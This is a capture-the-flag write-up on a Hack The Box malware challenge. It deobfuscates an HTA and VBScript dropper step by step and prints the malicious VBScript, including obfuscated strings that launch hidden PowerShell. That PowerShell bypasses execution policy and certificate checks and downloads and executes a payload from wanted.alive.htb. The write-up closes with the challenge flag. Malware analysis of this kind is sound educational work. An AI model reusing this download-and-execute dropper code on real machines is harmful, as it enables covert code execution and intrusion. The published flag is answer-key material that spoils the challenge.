






# WRITE_UP #

## WANTED ALIVE ##

### 1. Analysis ###
* **Given:** a html application script named `wanted`.
* **Description:** From Spreadsheet
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
Given an `HTML Application - HTA` file, I used strings to see if there's something interesting:



As you can see, there are several suspicious strings that appear after running `strings` on the file. We can see some keywords such as `fromBase64string`, `char`, `iex`, ... There's also a base64 encoded string, using `CyberChef` we should easily decode it:



Besides arguments and functions such as `Passthru`, `Dllimport`, .... We can clearly see that the script attempts to download a file from a remote url`http://wanted.alive.htb/35/wanted.tIF` and name it `wanted.vbs`.

We need to curl the file from the remote server to investigate it further:



After getting the malicious vbs script, I used `VSCode` to open it. Inside, there's a function that caught my eye:

```vb
If Not mesor() Then
        
        On Error Resume Next

        latifoliado = "U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZd2FudGVkCgXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1td2FudGVkCgTe"
        latifoliado = latifoliado & "XN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2Vydmld2FudGVkCgjZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZd2FudGVkCgGl"
        latifoliado = latifoliado & "uZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgcd2FudGVkCg3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19d2FudGVkCgyc"
        latifoliado = latifoliado & "CcpKSkpd2FudGVkCgd2FudGVkCg"
        
        Dim parrana
        parrana = "d2FudGVkCg"

        Dim arran
        arran =" d2FudGVkCg  d2FudGVkCg "
        arran = arran & "$d2FudGVkCgCod2FudGVkCgd"
        arran = arran & "id2FudGVkCggod2FudGVkCg "
        arran = arran & "d2FudGVkCg" & latifoliado & "d2FudGVkCg"
        ' ...
        arran = arran & "jd2FudGVkCguxd2FudGVkCgD"
        arran = descortinar(arran, parrana, "")
            
        Dim sandareso
        sandareso = "pd2FudGVkCgo"
        sandareso = sandareso & "wd2FudGVkCgr"
        sandareso = sandareso & "sd2FudGVkCge"
        sandareso = sandareso & "ld2FudGVkCgl -cd2FudGVkCgommad2FudGVkCgnd "
        sandareso = descortinar(sandareso, parrana, "")

        sandareso = sandareso & arran

        Dim incentiva
        Set incentiva = CreateObject("WScript.Shell")
        incentiva.Run sandareso, 0, False 
        WScript.Quit(rumbo)
```

The `descortinar` function looks like this:

```vb
Function descortinar(ByVal descair, ByVal brita, ByVal chincharel)
    Dim sulfossal
    sulfossal = InStr(descair, brita)
    
    Do While sulfossal > 0
        descair = Left(descair, sulfossal - 1) & chincharel & Mid(descair, sulfossal + Len(brita))
        sulfossal = InStr(sulfossal + Len(chincharel), descair, brita)
    Loop
    
    descortinar = descair
End Function
```
So this is a replace function:
1. It takes 3 arguments as input.
2. `InStr` find index of the pattern `brita` in the string `descair`
3. A do while loop if it finds the pattern, the func will take the pattern out of the string, replace it with the another pattern `chincharel` then concat all 3 parts together to create a new string.

Using this logic to decode the above script, we can see the pattern the attacker tries to replace is `d2FudGVkCg` assigned in var `parran`. However, the attacker doesn't replace the pattern with another string but simply deletes it since he only passes the value `""` to the descortinar func. Three variables `sandareso`, `arran`, `latifoliado` after being deleted `d2FudGVkCg` will contain the real payload.

I wrote a small python script to unveil the secret:
```python
import base64
import re

raw_data = """
latifoliado = "U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZd2FudGVkCgXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1td2FudGVkCgTe"
latifoliado = latifoliado & "XN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2Vydmld2FudGVkCgjZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZd2FudGVkCgGl"
latifoliado = latifoliado & "uZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgcd2FudGVkCg3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19d2FudGVkCgyc"
latifoliado = latifoliado & "CcpKSkpd2FudGVkCgd2FudGVkCg"
arran =" d2FudGVkCg  d2FudGVkCg "
arran = arran & "$d2FudGVkCgCod2FudGVkCgd"
arran = arran & "id2FudGVkCggod2FudGVkCg "
arran = arran & "d2FudGVkCg" & latifoliado & "d2FudGVkCg"
arran = arran & "$d2FudGVkCgOWd2FudGVkCgj"
arran = arran & "ud2FudGVkCgxdd2FudGVkCg "
arran = arran & "=d2FudGVkCg [d2FudGVkCgs"
arran = arran & "yd2FudGVkCgstd2FudGVkCge"
arran = arran & "md2FudGVkCg.Td2FudGVkCge"
arran = arran & "xd2FudGVkCgt.d2FudGVkCge"
arran = arran & "nd2FudGVkCgcod2FudGVkCgd"
arran = arran & "id2FudGVkCgngd2FudGVkCg]"
arran = arran & ":d2FudGVkCg:Ud2FudGVkCgT"
arran = arran & "Fd2FudGVkCg8.d2FudGVkCgG"
arran = arran & "ed2FudGVkCgtSd2FudGVkCgt"
arran = arran & "rd2FudGVkCgind2FudGVkCgg"
arran = arran & "(d2FudGVkCg[sd2FudGVkCgy"
arran = arran & "sd2FudGVkCgted2FudGVkCgm"
arran = arran & ".d2FudGVkCgCod2FudGVkCgn"
arran = arran & "vd2FudGVkCgerd2FudGVkCgt"
arran = arran & "]d2FudGVkCg::d2FudGVkCgF"
arran = arran & "rd2FudGVkCgomd2FudGVkCgb"
arran = arran & "ad2FudGVkCgsed2FudGVkCg6"
arran = arran & "4d2FudGVkCgStd2FudGVkCgr"
arran = arran & "id2FudGVkCgngd2FudGVkCg("
arran = arran & "$d2FudGVkCgcod2FudGVkCgd"
arran = arran & "id2FudGVkCggod2FudGVkCg)"
arran = arran & ")d2FudGVkCg;pd2FudGVkCgo"
arran = arran & "wd2FudGVkCgerd2FudGVkCgs"
arran = arran & "hd2FudGVkCgeld2FudGVkCgl"
arran = arran & ".d2FudGVkCgexd2FudGVkCge"
arran = arran & " d2FudGVkCg-wd2FudGVkCgi"
arran = arran & "nd2FudGVkCgdod2FudGVkCgw"
arran = arran & "sd2FudGVkCgtyd2FudGVkCgl"
arran = arran & "ed2FudGVkCg hd2FudGVkCgi"
arran = arran & "dd2FudGVkCgded2FudGVkCgn"
arran = arran & " d2FudGVkCg-ed2FudGVkCgx"
arran = arran & "ed2FudGVkCgcud2FudGVkCgt"
arran = arran & "id2FudGVkCgond2FudGVkCgp"
arran = arran & "od2FudGVkCglid2FudGVkCgc"
arran = arran & "yd2FudGVkCg bd2FudGVkCgy"
arran = arran & "pd2FudGVkCgasd2FudGVkCgs"
arran = arran & " d2FudGVkCg-Nd2FudGVkCgo"
arran = arran & "Pd2FudGVkCgrod2FudGVkCgf"
arran = arran & "id2FudGVkCgled2FudGVkCg "
arran = arran & "-d2FudGVkCgcod2FudGVkCgm"
arran = arran & "md2FudGVkCgand2FudGVkCgd"
arran = arran & " d2FudGVkCg$Od2FudGVkCgW"
arran = arran & "jd2FudGVkCguxd2FudGVkCgD"
sandareso = "pd2FudGVkCgo"
sandareso = sandareso & "wd2FudGVkCgr"
sandareso = sandareso & "sd2FudGVkCge"
sandareso = sandareso & "ld2FudGVkCgl -cd2FudGVkCgommad2FudGVkCgnd "
sandareso = sandareso & arran
"""

strings = re.findall(r'"(.*?)"', raw_data)
full_payload = "".join(strings)
real_payload = full_payload.replace("d2FudGVkCg", "")

print(real_payload)
```



The output is a full PowerShell script that assigns a base64 string to a variable and executes it. By extracting just that base64 string, we can drop it into CyberChef to reveal the final payload:



This script try to download a string from another remote server `http://wanted.alive.htb/cdba/_rp`. We can use curl to see what the string is: 



Voilà, there you go.
### 3. Solution ###
1. **Result:** The flag is `HTB{c4tch3d_th3_m4lw4r3_w1th_th3_l4ss0_l1k3_1t_w4s_n0th1ng}`


